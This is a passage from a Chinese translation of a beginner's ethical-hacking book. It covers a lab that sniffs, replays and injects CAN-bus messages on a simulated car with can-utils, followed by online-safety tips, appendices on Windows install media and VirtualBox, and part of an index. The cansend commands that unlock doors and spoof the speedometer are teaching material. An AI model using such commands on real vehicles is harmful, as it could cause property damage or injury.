kali@kali:~/ICSim$ sh setup_vcan.sh
```
2. 通过在终端中输入 `ip addr` 确保 `VCAN` 已正确设置。你应该会看到你的 IP 地址以及一个名为 `vcan0` 的新网络。
```
kali@kali:~/ICSim$ ip addr
--snip--
3: vcan0: <NOARP,UP,LOWER_UP> mtu 72 qdisc noqueue state UNKNOWN group default qlen 1000 link/can
```
3. 在终端中输入以下内容，告诉它首先使用我们刚刚创建的 `vcan0` 网络运行 `ICSim`，然后等待我们的命令：
```
kali@kali:~/ICSim$ ./icsim vcan0 &
```
你应该会看到一个模拟仪表板，如 图 10-1 所示。


图 10-1：ICSIM 程序显示了一个模拟的汽车仪表盘，带有速度表、转向信号等！

4. 在 `vcan0` 上启动控制器应用程序：
```
kali@kali:~/ICSim$ ./controls vcan0 &
```
CANBus 控制面板窗口应该打开。它看起来很像一个电子游戏控制器。

5. 通过点击窗口的任何角落并拖动来调整控制面板的大小，以便 `ICSim` 窗口可见。

6. 右键单击控制面板窗口的顶部栏并选择 **始终置顶**，如 图 10-2 所示。


图 10-2：保持控制器应用程序可见且易于访问

要驾驶虚拟汽车，请在 CANBus 控制面板窗口中单击，然后使用键盘发送命令。可用命令列在 表 10-1 中。按下向上箭头加速，使用左右箭头控制转向信号，等等。

表 10-1：CANBus 控制面板的键盘控制

| **功能** || **键** |
| --- | --- |
| **加速** || 按住向上箭头 (↑) |
| --- | --- |
| **指示左转或右转** || 按住左箭头或右箭头 (←/→) |
| **解锁前左门或前右门** || right\-SHIFT\-A 或 right-SHIFT\-B |
| **解锁后左门或后右门** || right\-SHIFT\-X 或 right-SHIFT\-Y |
| **锁住所有车门** || 按住 right\-SHIFT + 点按 left\-SHIFT |
| **解锁所有车门** || 按住 left\-SHIFT + 点按 right\-SHIFT |

控制器应用程序是与 `VCAN` 交互的唯一方式——除非我们入侵它。

## 黑客攻击汽车

我们的汽车黑客冒险将遵循与测试大多数物联网设备安全性相同的步骤：

1. 使用程序查看并记录控制器应用程序与仪表板之间在 `vcan0` 网络上的流量。这种程序称为 `packet sniffer`，因为网络上传送的消息称为 `packets`。
2. 识别哪些网络数据包和命令控制哪些汽车系统或功能。
3. 通过重新发送你捕获的数据包回 `vcan0` 网络，或通过从终端编写自己的命令来控制汽车。

### 查看数据包

我们将使用 `cansniffer`，这是内置于 `can-utils` 中的数据包嗅探器，来监听我们的模拟汽车网络。

1. 在你的终端窗口中，使用以下命令启动 `cansniffer`：
```
kali@kali:~/ICSim$ cansniffer -c vcan0
```
2. 使终端窗口高而窄（如 图 10-3 所示），以便更轻松地查看 `cansniffer` 消息。你可能还需要通过按 CTRL 和 − 几次来减小字体大小。

3. 在 CANBus 控制面板窗口中单击并向虚拟汽车发送一些命令。尝试加速、使用转向信号等。

`cansniffer` 工具拦截在控制器应用程序与仪表板之间在 `vcan0` 上发送的数据包并在终端窗口中显示它们。窗口中的每一行代表一个数据包。网络每秒传输数百个数据包，因此它们很快就过去了。

让我们看一个示例数据包，看看我们可以找到什么信息。以下是 图 10-3 中显示的数据包之一：
```
10.204188 2244 300 00 00 01 06 4.....
```


图 10-3：`cansniffer` 数据包嗅探器显示我们 vcan0 网络上的消息。

第一列是 `timestamp` 1，表示数据包发送的时间。第二列 2 是消息发送到或来自的系统的 ID 号。正如我们将发现的，CAN ID# `244` 代表速度表。第三列 3 是 `CAN` 消息数据，以十六进制值表示，第四列 4 包含以可打印字符表示的相同数据。

有经验的黑客知道如何分析数据包嗅探器捕获的流量以确定不同数据包的含义。这需要练习和耐心。现在，尝试在控制器应用程序中按向上箭头几次加速，同时在终端窗口中查找 ID# `244`。在加速和减速时查找消息数据列中的变化值。识别这种模式是 ID #`244` 指速度表的线索。

现在按下转向信号（左右箭头）并查找 ID# `188`。当你触摸转向信号时它应该出现，在你关闭它们几分钟后消失。使用左右 SHIFT 键，或右 SHIFT 键加上 X、Y、A 和 B 来锁定和解锁车门，并观察 ID# `19B` 旁边的数据发生了什么变化。`19B` 的行只应在你锁定或解锁车门时出现一瞬间。


在终端窗口中按下 `CTRL-C` 来停止 `cansniffer`，当你实验得足够多时。不要担心数据包经过的速度太快而无法挑选出特定的 ID。下一步将是记录一些数据包，以便你有时间自行研究。

## 捕获数据包

`can-utils` 工具 `candump` 记录来自 CAN 总线的消息，以便我们进一步分析甚至重放它们。

1. 要开始从 `vcan0` 记录数据包，请输入以下命令：

```
kali@kali:~/ICSim$ candump -l vcan0
```

`-l` 选项（那是一个连字符和一个小写的 *L*）是 *日志* 的缩写，因为我们要求 `candump` 通过将数据保存到文件中来记录其输出。

2. 切回 CANBus 控制面板窗口并驾驶几秒钟。加速和减速，使用你的左右转向灯，并解锁和锁定车门。

3. 按下 `CTRL-C` 停止记录。

4. 在终端窗口中，输入 `ls`（*列表* 的缩写）以显示 `ICSim` 目录的内容。你应该会看到一个新文件，格式为 `candump-YYYY-MM-DD_time.log`（时间定义为小时、分钟和秒—`HHMMSS`），例如：

```
candump-2021-05-18_113713.log
```

`candump` 日志文件是一个简单的文本文件。你可以在文本编辑器中查看该文件并使用 `CTRL-F` 查找特定的 CAN ID 值，例如转向灯的 188，如 图 10-4 所示。


图 10-4：在 Mousepad 文本编辑器中搜索特定的 CAN ID 值

## 重放数据包

通过在 `vcan0` 网络上重新发送我们在日志文件中捕获的数据包，我们可以让仪表盘“重现”记录的驾驶会话。这种类型的攻击称为 *重放攻击*。

1. 首先，关闭 CANBus 控制面板。控制器窗口即使在空闲时也会不断发送信号，而我们只想使用捕获的数据包来控制仪表盘。

2. 在终端窗口中输入以下命令，使用 `canplayer` 工具重放日志文件，将 `candump-YYYY-MM-DD_time.log` 替换为你的日志文件名：

```
kali@kali:~/ICSim$ canplayer -I candump-YYYY-MM-DD_time.log
```

3. 你的 ICSim 仪表盘应该开始以捕获数据包时的完全相同的方式移动。例如在 图 10-5 中，我正在以超过每小时 90 英里的速度行驶，同时向右转并解锁全部四个车门！（我不建议在你的真实汽车中这样做。）


图 10-5：重放的数据包正在控制仪表盘。

许多物联网设备容易受到这种类型的重放攻击。例如，它们刚推出时，许多蓝牙车门锁就容易受到此类攻击。只要有一台运行蓝牙无线嗅探器（如随 Kali 包含的 `Kismet`）的笔记本电脑和一个物理蓝牙天线（如约 $100 的 Ubertooth One），你就可以在有人用智能手机开门时捕获数据包，并重放这些数据包随时解锁车门。如今，为了防止重放攻击，每个消息都会添加一个特殊值，以便系统能够判断它接收到的是新消息还是之前见过的消息。

## 发送新命令

汽车黑客可以分析 `candump` 日志文件来破译 CAN ID 编号并弄清楚每个消息中的数据值含义。掌握这些知识后，黑客可以向系统发送特定命令，使汽车按其意愿执行。例如，向 ID# `188` 发送消息 `02000000` 会打开右转向灯。让我们试试看！

在 ICSim 打开且控制器窗口关闭的情况下，在终端中输入以下命令：

```
kali@kali:~/ICSim$ cansend vcan0 188#02000000
```

我们使用 `cansend` 向 `vcan0` 发送 CAN 消息。消息包含转向灯的 ID 编号（`188`），然后是哈希标记（`#`）作为分隔符，最后是代表右转向灯的数据值（`02000000`）。仪表盘上的右转向灯应该会亮起绿色。

如果你想打开左转向灯而不是右转向灯，请发送此消息：

```
kali@kali:~/ICSim$ cansend vcan0 188#01000000
```

要关闭信号，请发送消息 `188#00000000`。或者使用此命令同时 *打开* 两个信号：

```
kali@kali:~/ICSim$ cansend vcan0 188#03000000
```

现在查看你的 `candump` 日志文件中与速度表（ID# `244`）相关的 CAN 数据包中的数据值。看起来随着速度的增加，最后四个十六进制数字会上升。数据值 `0000000000` 为 0 英里每小时，而 `0000003894` 大约对应 90 英里每小时。让我们看看值 `0000009999` 会做什么：

```
kali@kali:~/ICSim$ cansend vcan0 244#0000009999
```

如 图 10-6 所见，速度表跳到每小时 240 英里！你可以使用十六进制获得更高的速度——尝试将最后四位数字更改为 `A000`、`B000`，甚至 `FFFF`。


图 10-6：我们可以通过使用 `cansend` 直接向 CAN 总线发送信号来控制仪表盘。

同样，我们可以通过发送消息 `19B#00000F000000` 来锁定所有车门，并通过消息 `19B#000000000000`（哈希标记后是 12 个零）解锁所有车门：

```
kali@kali:~/ICSim$ cansend vcan0 19B#00000F000000 kali@kali:~/ICSim$ cansend vcan0 19B#000000000000
```

我们的虚拟汽车认为它同时向左和向右转，并在以每小时 240 英里的速度疾驰时解锁全部四个车门！

## 攻击者如何入侵真实汽车

要使用你刚刚学到的相同的 `can-utils` 工具和技能来入侵真实汽车，攻击者只需要一台运行 Kali Linux 的笔记本电脑和一根电缆，将笔记本电脑连接到 *车载诊断，版本二（OBD-II）* 端口，该端口位于大多数汽车的方向盘下方。许多此类电缆的价格不到 $100。然而，现实世界的汽车黑客攻击是一件严重的事情，可能导致重大财产损失或人身伤害。研究人员在受控条件下练习汽车黑客攻击，以寻找安全漏洞。如果你练习汽车黑客攻击，请确保在车库、车道或封闭赛道上安全进行；切勿在道路上或任何可能有人受伤的地方入侵汽车。

汽车黑客并不总是需要与车辆保持有线连接才能发送命令。在通过直接连接到特定品牌和型号的汽车找到有用的 CAN ID 编号和消息后，攻击者或安全研究人员可以尝试通过蓝牙、Wi-Fi 或 4G/5G 无线连接到汽车，尝试远程发送 CAN 消息。一次备受关注的攻击利用了驾驶员免提智能手机连接，通过汽车的仪表盘娱乐系统远程控制汽车。另一次攻击则利用了特斯拉的 4G 无线空中更新系统，从远处安装恶意软件并篡改汽车。

一个好消息是，每辆车都略有不同，一辆车中的 CAN ID 编号通常与另一辆车中的 CAN ID 不同。每个制造商使用不同的代码，有时同一制造商的每个车型使用不同的代码集，而且这些代码可能会从一个车型年份更改到下一个车型年份！此外，现代汽车上有几种不同类型的控制器网络；CAN 只是其中最常见的一种。简而言之，要破解真实汽车的代码需要大量的耐心。

## 要点


在本章中，我们使用 `ICSIM` 和 `can-utils` 来入侵虚拟汽车网络。我们在 Kali 虚拟机上设置了这些工具。然后使用 `cansniffer` 嗅探网络流量，以了解 CAN 数据的样子。我们使用 `candump` 捕获 CAN 信号，然后使用 `canplayer` 重放这些数据包，以在不使用汽车键盘控制的情况下更改仪表板。我们还使用 `cansend` 发送特定的 CAN 消息，直接从命令行使用转向灯、更改速度表并解锁车门。最后，我们了解到入侵一辆真正的汽车只需要大约 $100 的工具和大量的耐心。

# 11 现在就可以做的十件事来保护自己在线安全


你已经读完了本书，但你作为一名道德黑客的旅程才刚刚开始。你现在了解坏人使用的技巧和工具——以及如何防御主要攻击来源（物理入侵、社会工程、搜索引擎侦察、汽车和物联网入侵、恶意软件、密码破解、Web 服务器入侵以及移动设备入侵）。换句话说，你已经学会先入侵自己！本章最后是对十件最重要的事情的快速回顾，你可以立即做到，以保护自己和你关心的人免受网络和现实世界中的攻击。

## 1\. 认识到你是一个目标。

人们有时会说，“这永远不会发生在我身上”或“我什么也做不了”，然后他们最终成为恶意入侵的受害者。本书向你展示了入侵大多数设备是多么简单，任何人都无法完全免受网络威胁。然而，通过采取一些明智的预防措施，你至少可以避免成为攻击者的 *容易* 目标。认识到你是一个潜在的目标——并且你的个人信息对普通黑帽黑客来说很有价值——是你保护自己和你关心的人的重要第一步。

## 2\. 警惕社会工程学。

如果有人试图让你做某事，无论是在线还是面对面，请停下来思考这是否符合你的最佳利益。从咄咄逼人的二手车销售人员到网络罪犯再到网络捕食者，攻击者利用人类心理试图诱骗我们按他们想要的方式行事。

注意并小心对待对你隐私的威胁。如果有人要求你的个人信息，请考虑他们到底是谁。他们在索要什么，为什么需要这些信息？在可能的情况下，避免自己处于必须放弃信息的位置：屏蔽不需要的联系人和社交媒体连接，不回复直接删除可疑电子邮件，挂断机器人电话，并删除垃圾短信。任何这些烦恼都可能是攻击者的入侵途径。

顺便说一下，克制自己在社交媒体上分享太多信息。在发布、拍照、推文或分享之前，想想谁可以看到你的帖子，他们可以用这些信息做什么。你和朋友的照片、你去过的地方（*永远*不要在度假期间发布度假照片），以及你喜欢的东西，都可能被攻击者用来诱骗你信任他们。

如有疑问，请与你信任的人谈谈；向 FTC 报告网络犯罪，网址为 [`www.ftc.gov/`](https://www.ftc.gov/) 或向 FBI 报告，网址为 [`www.ic3.gov/`](https://www.ic3.gov/)，并向当地执法部门报告网络欺凌、跟踪或骚扰。

## 3\. 记住物理安全的重要性，并在可能时关闭设备。

物理访问即完全访问，因此要像关注在线安全一样小心物理安全。锁好门，保护好你的物品，并注意将什么东西插入你的电脑。如果你只是在咖啡店离开笔记本电脑几分钟，攻击者就可以访问你的文件或直接带走整台电脑。插入电脑的闪存驱动器或其他设备可用于窃取文件或启动恶意软件。

当不使用时，关闭电脑的连接，如蓝牙或 Wi-Fi。除了节省电池寿命外，你还将阻止攻击。移动设备也一样，使用完毕后应关闭应用。如果可以的话，夜间关闭电脑和手机。你会因额外的安心而睡得更好——而且每月还能节省几美元的电费！

## 4\. 点击前三思。

如果你不确定电子邮件的来源，不要打开任何链接或附件。点击前仔细检查网页链接——或将其通过 VirusTotal 运行。更好的是，打开一个新浏览器并搜索真实网站，而不是通过电子邮件点击，即使它看起来合法。

除非你信任来源，否则不要通过网络下载或安装软件，即使如此，也请先在 VirusTotal 或你的防病毒扫描器中检查。不要打开可疑的附件，包括 Office 文档、PDF 和视频；验证来源或扫描文件以防病毒更安全。不要分享或下载非法文件或盗版软件、音乐或电影。恶意黑客喜欢在这些“免费”文件中隐藏邪恶的惊喜。

只从官方应用商店安装移动应用。在安装新应用之前，阅读应用请求的权限列表。游戏或简单应用不需要访问你的联系人、通话记录或短信——除了像 *Pokémon Go* 这样的增强现实或基于位置的应用外，应用也不应要求你的位置。如果应用请求的权限比你认为它需要的多，请删除它并找到一个权限更少的替代品。

## 5\. 使用密码管理器并开启双因素认证。

大多数人的密码可以在几秒钟或几分钟内被破解。八个字符的密码永远不够。用四个或更多单词组成一个易记的密码短语，并混合字符类型（包括字母、数字、符号，甚至非键盘字符）。不要在多个网站上重复使用相同的密码；即使你添加数字或特殊字符，黑客破解与他们已知的密码相似的密码也只需要几秒钟。

不要将密码存储在浏览器中——记住，你只需几次点击就能泄露这些密码！相反，使用 *密码管理器*，如 KeePass、Dashlane、LastPass 或类似工具。密码管理器会为你的所有账户随机生成难以破解的复杂（20 个字符以上）密码并以加密形式存储。你设置一个长密码短语来访问密码管理器，然后让密码管理器自动处理所有其他密码，这样你就不必记住它们了。

密码管理器被认为很安全，因为它们实际上使用军用级加密来加密你的密码。这与我们在第 1 章中看到浏览器使用的通过混淆实现的安全性非常不同。密码管理器不仅仅是隐藏你的其他密码，而是通过在攻击者没有你的长密码短语时使其无法恢复来保护它们。打个比方，密码管理器就像把你的家门钥匙放在一个重达两吨的防弹保险箱里，这个保险箱用 20 位数字组合锁固定在你的路边，而不是把钥匙藏在门垫下。通过在存储前真正加密你的密码，密码管理器（配合良好的密码短语）提供了真正的保护，而不仅仅是混淆。


密码管理器只有一个例外：务必将你的邮箱密码单独保存并记住（而不是仅仅存放在管理器中），以防万一你忘记了密码管理器的密码短语，需要通过邮箱重置所有密码。这也能在有人骗你交出密码管理器密码短语的情况下保护你——你仍然可以通过将重置链接发送到邮箱来重置其他密码。最终，你只需要记住两个密码短语——一个用于邮箱，一个用于密码管理器——并且仍然可以为每个账户拥有唯一、几乎无法破解的密码。

为了在攻击者能够窃取或猜出你的其中一个密码时提供额外保护，请为最重要的账户开启双因素认证。双因素认证通过在访问最敏感账户时除了密码之外还需要额外验证，从而增加一层安全保护。通常，额外的验证步骤涉及向你的手机发送安全验证码。

## 6. 保持软件为最新状态。

为操作系统开启自动更新，并定期更新浏览器和其他应用程序。最好至少每月运行一次更新。选择每月中的某一天，例如 1 号或 30 号，并在日历上标记以更新你的台式机/笔记本电脑和所有应用程序。把它当作另一项必须完成的任务，就像支付账单一样。当有更新可用时，尽快更新你的手机、智能电视和其他设备。

安全补丁和软件更新是攻击者寻找可在旧版本中利用的漏洞的第一处。一旦攻击者看到问题已被修复，任何尚未下载该修复的人就成了待宰的鸭子。这就是为什么 `Kali` 中 2,000 多个漏洞利用中的大多数都攻击的是旧版本的软件。保持所有软件为最新状态将消除互联网上超过 99% 的已知攻击。

## 7. 保护你的最敏感数据。

不要在公共电脑或不可信网络上登录敏感账户。相反，只在你最受保护的电脑上进行敏感工作——一台存放在安全位置、配备良好防病毒程序、防火墙、最新软件、强账户控制且安装程序很少的电脑。在家中使用复杂密码和安全 Wi-Fi，并至少每月定期检查路由器是否有未知设备。

考虑将最私密的数据，如信用卡信息、税表和健康记录，完全从电脑上移除。否则，对于你希望以最大程度保护的电脑上的敏感信息，可以考虑加密文件，或加密你进行敏感工作所用的电脑的整个硬盘。在 `Windows Professional edition` 上，你可以使用 `BitLocker` 加密整个硬盘，或者通过右键点击并选择 `Advanced . . .`▶`Encrypt contents to secure data` 来加密单个文件和文件夹。在 `macOS` 上，你可以通过前往 `System Preferences`▶`Security & Privacy`▶`FileVault` 来使用 `FileVault` 加密硬盘。我不会在这里详细介绍步骤，但加密程序应会指导你，如果遇到困难，快速的网络搜索可以帮助你。像 `VeraCrypt` 这样开源的加密软件包也允许你仅用几个步骤通过密码或密码短语加密文件、文件夹或整个驱动器。你可以在 `https://www.veracrypt.fr/` 下载 `VeraCrypt`。

将加密密码保存在密码管理器中以免忘记是可以的。你的文件对偷走你的硬盘或笔记本的窃贼，或试图在锁定电脑并勒索赎金前窃取数据的勒索软件攻击者来说仍然完全无用。

## 8. 明智地使用安全软件。

保持防火墙开启并定期更新防病毒软件。有几款免费和低成本的防病毒工具可供选择。研究一下哪些工具阻止了最多的恶意软件，然后每周更新你的防病毒工具，或开启自动更新，以获得最佳保护。防火墙和防病毒软件只有在开启并保持最新时才能保护你。

考虑使用 `VPN` 应用在旅行时或使用公共 Wi-Fi 时保护你的手机或笔记本电脑。`VPN`，即 *虚拟专用网络*，在你使用互联网时隐藏你的身份并加密你的数据，因此任何监视网络的人都无法看到你的信息。有了 `VPN`，你的安全性将高于大多数同龄人，并且能免受大多数在线攻击。

## 9. 备份你想要保留的数据。

防止数据丢失的最佳防御——无论是勒索软件、盗窃、破坏还是意外删除——就是经常备份。视你丢失一个月数据会多么焦虑的情况，将文件备份到外部硬盘，每周或每月备份一次（取决于你如果丢失一个月的数据会多么焦虑）。

最好将备份驱动器保存在与电脑不同的位置，以避免同时丢失两者。或者跳过麻烦，每月花几美元使用云备份服务。在线搜索一个评价很高且具有你想要和需要的功能的服务。

## 10. 与你的家人沟通。

沟通，沟通，再沟通。确保你的孩子，以及你的父母和年长的亲戚，了解本书中你学会防御的各种威胁和攻击类型。在线罪犯和捕食者觊觎他们的账户和身份，就像觊觎你的身份一样。鼓励他们在回复可疑或威胁性的电子邮件、电话或短信之前停下来思考。你甚至可以提供“现实检查”服务，如果他们不确定该怎么做。有时仅仅谈论一个在线优惠或威胁就可以帮助目标意识到这是一个骗局。

父母，请根据孩子年龄设定适当的屏幕时间限制，谈论在线和现实世界的威胁，并 *倾听* 你的孩子。知道他们的朋友是谁以及他们在网上与谁交谈。考虑互相追踪设备——允许你的孩子追踪你的手机，反之亦然。确保他们了解网上过度分享的危险。最重要的是，鼓励他们在不确定该怎么做或经历网络欺凌或骚扰时与你交谈。

## 要点

你在理解在线威胁方面已经取得了长足进步。你在自己搭建的安全虚拟环境中执行了真正的黑客攻击。而且你学会了如何保护自己和你关心的人免受计算机攻击。

你还学习了一些 21 世纪最热门的职业技能。网络安全领域每年有数十万个职位空缺，而你现在拥有使用恶意黑客使用的工具来防御你的设备和网络的真实经验。

将这份知识用于善事，保持安全，并享受黑客攻击和练习你新的网络安全技能的乐趣！

# A

## 创建 Windows 10 安装光盘或 USB 闪存驱动器


道德黑客经常帮助恢复文件或重置密码，就像我们在第 2 章的 Sticky Keys 攻击中所做的那样。为此，你可以使用可启动的恢复光盘或 USB 驱动器。这些通常用于在 Windows 损坏时重新安装 Windows，以便你可以访问电脑上的文件。

要创建启动光盘或 USB 驱动器，你可以直接从 Microsoft 下载免费的 *评估* 副本 `Windows 10`，然后将其刻录或安装到 DVD 或 USB 闪存驱动器上。你需要一个容量至少为 8GB 的光盘或驱动器。

## 下载 Windows 10

1. 在浏览器中前往 `https://www.microsoft.com/evalcenter/`（有时 Microsoft 会更改其网站，因此如果此 URL 不工作，请搜索“Microsoft Evaluation Center”以找到新页面）。


2. 点击 `Get Started` 以查找 Microsoft 产品的多个类别的评估副本，例如 Windows、Windows Server 和 Office。

3. 点击 `Windows`▶`Windows 10 Enterprise`（或其他更新的 Windows 操作系统）以进入 图 A-1 中显示的 Windows 10 企业版评估屏幕。


图 A-1：Windows 10 企业版评估屏幕

4. 在“开始您的评估”下，选择 `ISO - Enterprise` 作为您的评估文件类型，然后点击 `Continue`。

5. 网站会要求您填写一份关于您自己的表格。如果您未满 18 岁，在输入任何个人信息之前请先咨询成人。一旦您提交信息，您应该会看到类似 图 A-2 的下载屏幕。


图 A-2：选择平台和语言下载免费合法的 Windows 评估副本。

6. 选择 `64 bit`，选择您的语言，然后点击 `Download`。

Windows 10 安装下载是一个 `ISO` 文件，通常称为 `image`，它是一个包含制作 CD 或 DVD 所需的所有文件的文件，如我们的软件安装光盘。ISO 文件为 4GB 或更大，因此请尝试在网络连接快速的地方下载它。

### 将 Windows 10 刻录到 DVD

要将 Windows 10 的副本刻录到 DVD，您需要一台带有 DVD 刻录驱动器的计算机。

1. 对于 Windows，右键单击 ISO 文件并选择 `Burn disc image`。对于 Mac，在 Finder 中选择 ISO 文件，然后转到 `File`▶`Burn <disc>`。

2. 将空白 DVD 插入驱动器，几分钟后，您应该会得到一张可启动的 Windows 10 安装光盘。

### 将 Windows 10 安装到 USB 闪存驱动器

如果您没有 DVD 刻录驱动器，您可以使用 Microsoft 的 Windows Media Creation Tool 将 Windows 10 的副本安装到 USB 闪存驱动器上。

1. 转到 [`www.microsoft.com/en-us/software-download/windows10/`](https://www.microsoft.com/en-us/software-download/windows10/)，如 图 A-3 所示。（再次说明，Microsoft 经常更改其 URL、站点名称甚至工具名称，因此如果此 URL 不起作用，请搜索“Windows Media Creation Tool”，您应该能找到正确的链接。）


图 A-3：从 Microsoft 下载 Windows Media Creation Tool。

2. 下载并安装您首选语言的 Windows Media Creation Tool。

3. 运行工具时，选择 `Create installation media (USB flash drive, DVD, or ISO file)`，然后点击 `Next`。


图 A-4：选择 `Create installation media`。

4. 保留 Windows 10 的语言和版本的默认选择，然后点击 `Next`。

5. 将 `USB flash drive` 作为您的媒体类型。


图 A-5：选择 `USB flash drive`，插入空的 USB 驱动器，然后点击 `Next`。

6. 插入至少有 8GB 空闲空间的空 USB 驱动器，选择该空 USB 驱动器，然后点击 `Next`。

这需要几分钟时间，但当工具完成后，您将拥有一个可启动的 USB 驱动器，其中包含完整的 Windows 10 安装，可用于 Sticky Keys 攻击或一般的计算机故障排除和修复。

# B 故障排除 VirtualBox


第一次在 VirtualBox 中运行虚拟机时，您可能会由于 Mac 或 PC 上的不同设置而遇到错误。请使用本附录来排查 VirtualBox 设置。如果您尝试了这些步骤中列出的所有内容仍有问题，请访问本书网站 [`www.nostarch.com/go-hck-yourself/`](https://www.nostarch.com/go-hck-yourself/) 获取最新帮助，或在网上搜索您看到的具体错误。设置虚拟黑客实验室可能需要几次尝试，但这是值得的！

## 在 Mac 上故障排除 VirtualBox

某些 Mac 在首次加载 Kali VM 时可能会显示错误。请尝试以下步骤修复错误：

1. 确保您已正确安装 VirtualBox Extension Pack，如第 3 章所述。

2. 转到 `System Preferences`▶`Security & Privacy` 并点击 `General` 选项卡。

3. 如果您在底部附近看到一条消息说 Oracle 软件被阻止加载，请点击 `Allow`。

4. 重新启动 VirtualBox，您的 Kali VM 应该能正确打开。

## 在 Windows 上故障排除 VirtualBox

如果 VirtualBox 在 Windows 上运行不正常，您可能需要执行以下操作：

1. 在控制面板中关闭 Hyper-V 选项。

2. 在计算机的 BIOS 或 UEFI 设置中启用虚拟化。

我们将在接下来更详细地介绍这两个步骤。完成两者后，重新启动 VirtualBox 并重试打开 Kali VM。

### 关闭 Hyper-V 选项

Windows 的某些版本默认启用 Hyper-V（Microsoft 自家的虚拟化软件）。要改用 VirtualBox，您需要关闭 Hyper-V。

1. 转到 `Control Panel`▶`Programs`▶`Programs and Features`▶`Turn Windows features on or off`。

2. 在设置列表中，取消选中名称中包含 Hyper-V 或 Hypervisor Platform 的所有复选框，如 图 B-1 所示。


图 B-1：关闭所有 Hyper-V 和 Windows Hypervisor Platform 选项

3. 关闭 Hyper-V 和 Hypervisor Platform 设置后，您需要在再次运行 VirtualBox 之前重新启动计算机。

### 在 BIOS/UEFI 设置中启用虚拟化

如果您已关闭 Hyper-V 但仍在使用 VirtualBox 时遇到问题，您可能需要启用虚拟化。要打开虚拟化支持，您需要重新启动进入计算机的 BIOS 或 UEFI，即 PC 的基本硬件设置。

1. 在 Windows 10 中，转到 `Settings`▶`Update & Security`▶`Recovery`▶`Advanced startup`▶`Restart now`，如 图 B-2 所示。您的计算机应重新启动到高级启动模式。


图 B-2：从 Windows 10 进入 BIOS

2. 从蓝色启动菜单中选择 `Troubleshoot` 并按 `ENTER`。然后选择 `Advanced options` 并再次按 `ENTER`，如 图 B-3 所示。

3. 高级选项菜单屏幕包含用于排查和修复 PC 的有用工具，包括系统还原和启动修复。在此菜单的右下角，选择 `UEFI Firmware Settings` 或 `Startup Settings` 选项，如 图 B-4 所示。


图 B-3：访问高级选项菜单


图 B-4：访问 UEFI 固件设置或启动设置

4. 按 `ENTER` 然后点击 `Restart`。如果您的计算机使用较新的 UEFI 固件设置，重新启动时您应该会看到 UEFI 设置菜单。如果您的计算机使用较旧的 BIOS 启动设置，您可能需要在重新启动时按特殊键进入 BIOS。


5. 一旦你进入了启动 BIOS 或 UEFI 设置，找到虚拟化设置并将其打开。你可能需要使用方向键、空格键或 `ENTER` 键在看起来老式的菜单中导航。每种品牌的 PC BIOS 都有细微差别，所以只需查找类似“Virtualization Technology”、“VT-x”或“VT-d”的菜单选项。这些通常位于高级、系统或 CPU 设置下。

6. 启用或打开虚拟化，保存更改，然后退出以重新启动进入 Windows。

7. 重新启动 `VirtualBox` 并再次打开 `Kali VM`。

## 最后的一个问题：某些防病毒程序

如果在尝试了上面讨论的所有虚拟化设置后，你的 VM 仍然无法启动，并且在下载并重新安装了正确的 `VirtualBox` 和 VM 文件之后，你电脑的防病毒软件可能正在阻止 `VirtualBox`。在线搜索是否有其他人遇到相同问题（我的学生在使用 WebRoot SecureAnywhere 以及某些版本的 Avast 和 Symantec 时遇到过问题），这样你可能可以为 `VirtualBox` 添加排除项，使防病毒软件不会阻止它。最后的办法是尝试使用安装了不同防病毒应用的电脑或更换防病毒程序。

# 索引

请注意，索引链接指向每个术语的大致位置。

*斜体页码表示术语的定义。*

**A**

`-f` (格式) 选项，56

`-h` (帮助) 选项，112

`-i` (交互) 选项，61

`-j` 选项，58

`-l` (日志) 选项，131

`-o` (输出) 选项，56

`-v` (查看) 选项，65

`*.7z*` 文件，106

`*.apk*` 文件，108

`*.exe*` (可执行) 文件，56

`<input>` 标签，5

`<script>` 标签，96

`\` 运算符，56，103

`.\` 运算符，15

管理员级访问。*另请参阅* Mac root 漏洞利用；超级用户权限；系统级访问，13–15，59，76–78

AND 运算符，*33*

Android 应用

防御恶意，122

删除，119

分发，108

隐藏图标漏洞利用，121

权限，110–111

Android 文件夹，117

Android 移动设备攻击项目，106–121

创建 Android VM，106–108

攻击联系人，114–116

攻击文件，117–120

攻击设置，120

隐藏应用图标，121

感染 Android VM，109–111

启动木马，108–109

Meterpreter 命令，111–112

运行应用，113–114

通过摄像头监视，116–117

Android VM，106–108

防病毒软件。*另请参阅* VirusTotal，70，122，139，153

APK 文件，108

`app_list` 命令，113

`app_run` 命令，113

`app_uninstall` 命令，114

`apt` 命令，29

归档器，106

攻击者 *参见* 攻击和黑客

授权 *参见* 权限

**B**

后门，*65*

`background` 命令，77

反斜杠运算符，55\-56，103

备份，139

Bash Bunny，19

BIOS（基本输入/输出系统），*11*

从...启动，11–12

启用虚拟化，151–153

密码，*20*

BitLocker，139

黑帽黑客，xvi

Bluetooth 设备，132

可启动光盘/驱动器，19，143–147

浏览器。*另请参阅* Chrome 浏览器；Firefox 浏览器，2，6–8，137

暴力破解攻击，*80*

烧录到 DVD，145

**C**

摄像头

智能手机劫持，116–117

网络摄像头监视，68–70

CAN 总线，*127*

CAN ID，134

CAN 数据包

记录，131

重放，132

发送新命令，132–133

查看，129–131

`can-utils` 工具，126

CANBus 控制面板，128–129，132

`candump` 工具，131

`canplayer` 工具，132

`cansend` 工具，133

`cansniffer` 工具，129–131

*《汽车黑客手册》* (Smith)，134

汽车黑客项目，126–134

驾驶虚拟汽车，128

攻击真实汽车，134

攻击虚拟汽车，129–134

安装 ICSim，126

设置仪表板，127–128

`cat` 命令，65，116，119，120

`cd` (更改目录) 命令，13，117

`chmod` 命令，119

Chrome 浏览器

无痕模式，7

检查工具，2–6

在木马应用安装中，110

克隆，*47*

代码注入攻击，*96*

命令提示符程序，*10*，59

计算机。*另请参阅* 物理访问攻击；虚拟机 (VMs)

在物联网中，125–126

使用公共，6–7

继续 (`\`) 运算符，56

复制 (`cp`) Linux 命令，57

`copy` (Windows) 命令，13

Cortana 语音助手，19

`cp` (复制) Linux 命令，57

破解密码，*73*

凭证收集，*47*，49–50

跨站脚本 (XSS) 攻击，96–100

密码哈希函数，*74*

`CTRL-C` (`CONTROL-C`) 命令，79，119

`CTRL-F` (`CONTROL-F`) 命令，131

网络跟踪/网络欺凌，41，140

**D**

Darn Vulnerable Web App (DVWA)

在跨站脚本攻击中，96–100

启动，94–95


## D
保护网页，103–104
数据
备份，139
泄露，82，91
敏感，136，137，138
用户输入验证和清理，103–104
`data` 文件夹，117
数据值
十六进制，130
清理和验证，103–104
数据库
Android，118
在 SQL 注入攻击中，100–103
在存储型跨站脚本攻击中，97–100
